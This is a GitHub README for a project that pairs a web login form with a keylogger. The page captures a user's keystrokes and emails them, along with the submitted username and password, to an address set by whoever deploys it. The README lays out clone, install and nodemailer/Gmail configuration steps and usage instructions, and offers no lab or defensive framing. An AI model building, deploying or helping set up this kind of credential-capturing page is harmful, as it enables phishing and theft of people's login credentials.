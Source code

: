 # Keylogger Project

This project is a simple implementation of a keylogger integrated with a login form. It captures the keystrokes made by the user before submitting the login form and sends them along with the login credentials to a specified email address. This README provides an overview of the project structure, files, and how to set it up.

![Login preview](./ss1.png)

## Project Structure

- **index.js**: Node.js backend server code responsible for handling the login endpoint, capturing keystrokes, and sending them via email.
- **script.js**: Frontend JavaScript code responsible for capturing keystrokes and submitting the login form.
- **index.html**: HTML file containing the login form.
- **keycodes.js**: JavaScript file defining keycodes for each key pressed.
- **styles.css**: CSS file containing styles for the login form and page layout.

## Setup Instructions

1. **Clone the repository to your local machine:**

    ```bash
    git clone https://github.com/pranaykumar2/keylogger.git
    ```

2. **Install dependencies:**

    ```bash
    npm install
    ```

3. **Configure Gmail credentials in `index.js`:**

    ```javascript
    const transporter = nodemailer.createTransport({
        service: 'gmail',
        auth: {
            user: process.env.GMAILFROM,
            pass: process.env.PASSWORD
        }
    });
    
    const mailOptions = {
        from: process.env.GMAILFROM,
        to: process.env.GMAILTO,
        subject: 'Keystrokes Log',
        text: `Keystrokes log for user ${username}:\n${keysPressedText}`
    };
    ```

4. **Setup `.env` file:**

    Create a `.env` file in the root directory and add the following:

    ```
    GMAILFROM=your-from-email@gmail.com
    PASSWORD=your-email-password
    GMAILTO=your-to-email@gmail.com
    PORT=3000
    ```

5. **Start the server:**

    ```bash
    node index.js
    ```

6. **Open `localhost:3000` in a web browser to access the login form.**

7. **Steps to setup `APP PASSWORD`:**

   1. Go to your Google Account App Passwords: [Google App Passwords](https://myaccount.google.com/apppasswords)
   2. Name your app and create the password
   3. Copy the generated password and use it in the `.env` file

## Usage

1. Enter your username and password in the login form.
2. Before submitting the form, type your credentials while the page is active to capture keystrokes.
3. Click the "Login" button to submit the form.
4. The captured keystrokes will be sent along with your login credentials to the configured email address.

## Keycodes Reference

The `keycodes.js` file contains a reference for keycodes corresponding to each key pressed. You can use this reference to interpret the captured keystrokes.

## Technologies Used

- Node.js
- Express.js
- Nodemailer
- HTML/CSS/JavaScript
- Body-parser
- FormData API
- Git
- Gmail

## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

## License

This project is licensed under the [MIT License](LICENSE).
